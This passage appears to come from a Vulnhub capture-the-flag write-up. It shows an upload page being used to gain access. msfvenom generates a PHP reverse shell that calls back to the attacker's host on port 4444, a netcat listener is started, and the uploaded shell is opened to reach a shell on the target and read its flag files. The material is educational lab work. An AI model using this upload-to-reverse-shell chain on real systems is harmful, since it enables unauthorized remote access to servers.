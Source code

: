 
After i logged in I have this Screen
![Upload_File](Upload.png)

## Exploitation 

Lets Craft PHP Shell 

```shell
root@kali:~# msfvenom -p php/reverse_php LHOST=10.0.2.7 LPORT=4444 > Desktop/CTF/Vulnhub/JordanCTF/shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3017 bytes

```
Setting up the Handler 

```shell
root@kali:~# nc -lvvnp 4444
listening on [any] 4444 ...
```
Navigate to http://10.0.2.24/uploaded_files/shell.php

```shell

$ cd ..
$ ls
    admin_area
    assets
    check_login.php
    css
    flag
    flag.txt
    hint.txt
    index.php
    js
    login.php
    logout.php
    robots.txt
    uploaded_files
$ cat flag.txt
$ cat hint.txt
```